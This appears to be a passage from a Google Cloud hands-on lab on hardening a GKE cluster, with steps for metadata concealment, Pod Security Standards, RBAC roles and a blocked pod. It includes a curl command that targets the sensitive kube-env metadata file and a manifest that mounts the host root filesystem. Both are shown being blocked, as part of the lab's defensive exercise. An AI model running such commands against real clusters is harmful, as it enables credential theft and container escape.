To enable you to experiment with and without the Metadata endpoint protections in place, you'll create a second node pool that includes two additional settings. Pods that are scheduled to the generic node pool will not have the protections, and Pods scheduled to the second node pool will have them enabled.

**Note:** Legacy endpoints were deprecated on September 30, 2020. In GKE versions 1.12 and newer, the `--metadata=disable-legacy-endpoints=true` setting is automatically enabled. The next command below explicitly defines it for clarity.

- Create the second node pool:

```
gcloud beta container node-pools create second-pool --cluster=simplecluster --zone=$MY_ZONE --num-nodes=1 --metadata=disable-legacy-endpoints=true --workload-metadata-from-node=SECURE
```

Copied!

Click *Check my progress* to verify the objective.

Deploy a second node pool


Check my progress


## Task 6. Run a Google Cloud-SDK pod

1. In Cloud Shell, launch a single instance of the Google Cloud-SDK container that will be run only on the second node pool with the protections enabled and not run as the root user:

```
kubectl run -it --rm gcloud --image=google/cloud-sdk:latest --restart=Never --overrides='{ "apiVersion": "v1", "spec": { "securityContext": { "runAsUser": 65534, "fsGroup": 65534 }, "nodeSelector": { "cloud.google.com/gke-nodepool": "second-pool" } } }' -- bash
```

Copied!

**Note:** If you get a timed out error, run the command again.

1. You should now have a bash shell inside the pod's container running on the node pool named `second-pool`. You should see the following:

```
nobody@gcloud:/$
```

It may take a few seconds for the container to start and the command prompt to open.

If you don't see a command prompt, press **Enter**.

### Explore various blocked endpoints

1. With the configuration of the second node pool set to `--workload-metadata-from-node=SECURE` , the following command to retrieve the sensitive file, `kube-env`, will now fail:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env
```

Copied!

(Output)

```
This metadata endpoint is concealed.
```

1. But other commands to non-sensitive endpoints will still succeed if the proper HTTP header is passed:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/name
```

Copied!

(Example Output)

```
gke-simplecluster-second-pool-8fbd68c5-gzzp
```

1. Exit out of the pod:

```
exit
```

Copied!

You should now be back in Cloud Shell.

## Task 7. Enforce Pod Security Standards

1. In order to have the necessary permissions to proceed, grant explicit permissions to your own user account to become `cluster-admin:`

```
kubectl create clusterrolebinding clusteradmin --clusterrole=cluster-admin --user="$(gcloud config list account --format 'value(core.account)')"
```

Copied!

(Output)

```
clusterrolebinding.rbac.authorization.k8s.io/clusteradmin created
```

1. Now you will enforce a pod security standard. Choose the most appropriate security standard for your 'default' namespace. The 'restricted' profile offers stronger security:

```
kubectl label namespace default pod-security.kubernetes.io/enforce=restricted
```

Copied!

1. Next you will create a ClusterRole. If you want to control who can modify Pod Security Admission levels on namespaces, create a ClusterRole called `pod-security-manager`:

```
cat <<EOF | kubectl apply -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
   name: pod-security-manager
rules:
- apiGroups: ['policy']
  resources: ['podsecuritypolicies']
  resourceNames: ['privileged', 'baseline', 'restricted']
  verbs: ['use']
- apiGroups: ['']
  resources: ['namespaces']
  verbs: ['get', 'list', 'watch', 'label']
EOF
```

Copied!

1. Next, you will create a RoleBinding. To restrict who can change namespace labels related to Pod Security Admission, create a RoleBinding in the 'default' namespace:

```
cat <<EOF | kubectl apply -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
   name: pod-security-modifier
   namespace: default
subjects:
- kind: Group
  apiGroup: rbac.authorization.k8s.io
  name: system:authenticated
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: pod-security-manager
EOF
```

Copied!

**Note:** For highly customized and dynamic pod security enforcement, consider tools like OPA Gatekeeper or Kyverno.

Click *Check my progress* to verify the objective.

Deploy PodSecurityPolicy objects


Check my progress


## Task 8. Deploy a blocked pod that mounts the host filesystem

Because the account used to deploy the GKE cluster was granted cluster-admin permissions in a previous step, it's necessary to create another separate "user" account to interact with the cluster and validate the PodSecurityPolicy enforcement.

1. To do this, run:

```
gcloud iam service-accounts create demo-developer
```

Copied!

(Output)

```
Created service account [demo-developer].
```

1. Next, run these commands to grant these permissions to the service account - the ability to interact with the cluster and attempt to create pods:

```
MYPROJECT=$(gcloud config list --format 'value(core.project)')
```

Copied!

```
gcloud projects add-iam-policy-binding "${MYPROJECT}" --role=roles/container.developer --member="serviceAccount:demo-developer@${MYPROJECT}.iam.gserviceaccount.com"
```

Copied!

1. Obtain the service account credentials file by running:

```
gcloud iam service-accounts keys create key.json --iam-account "demo-developer@${MYPROJECT}.iam.gserviceaccount.com"
```

Copied!

1. Configure `kubectl` to authenticate as this service account:

```
gcloud auth activate-service-account --key-file=key.json
```

Copied!

1. To configure `kubectl` to use these credentials when communicating with the cluster, run:

```
gcloud container clusters get-credentials simplecluster --zone $MY_ZONE
```

Copied!

1. Now, try to create another pod that mounts the underlying host filesystem `/` at the folder named `/rootfs` inside the container:

```
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: hostpath
spec:
  containers:
  - name: hostpath
    image: google/cloud-sdk:latest
    command: ["/bin/bash"]
    args: ["-c", "tail -f /dev/null"]
    volumeMounts:
    - mountPath: /rootfs
      name: rootfs
  volumes:
  - name: rootfs
    hostPath:
      path: /
EOF
```

Copied!

1. This output validatates that it's blocked by the pod security standard:

```
Error from server (Forbidden): error when creating "STDIN": pods "hostpath" is forbidden: violates PodSecurity "restricted:latest": allowPrivilegeEscalation != false (container "hostpath" must set securityContext.allowPrivilegeEscalation=false), unrestricted capabilities (container "hostpath" must set securityContext.capabilities.drop=["ALL"]), restricted volume types (volume "rootfs" uses restricted volume type "hostPath"), runAsNonRoot != true (pod or container "hostpath" must set securityContext.runAsNonRoot=true), seccompProfile (pod or container "hostpath" must set securityContext.seccompProfile.type to "RuntimeDefault" or "Localhost")
```

1. Deploy another pod that meets the criteria of the `restrictive-psp`:

```
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: hostpath
spec:
  securityContext:
    runAsNonRoot: true  # Ensure a non-root user
    runAsUser: 1000
    fsGroup: 2000
    seccompProfile:  # Add a seccomp profile
      type: RuntimeDefault
  containers:
  - name: hostpath
    image: google/cloud-sdk:latest
    command: ["/bin/bash"]
    args: ["-c", "tail -f /dev/null"]
    securityContext:
      allowPrivilegeEscalation: false
      capabilities:
        drop: ["ALL"]
EOF
```

Copied!

(Output)

```
pod/hostpath created
```

Click *Check my progress* to verify the objective.

Deploy a blocked pod that mounts the host filesystem


Check my progress


## Congratulations!

In this lab you configured a default Kubernetes cluster in Google Kubernetes Engine. You then probed and exploited the access available to your pod, hardened the cluster, and validated those malicious actions were no longer possible.

### Next steps / Learn more


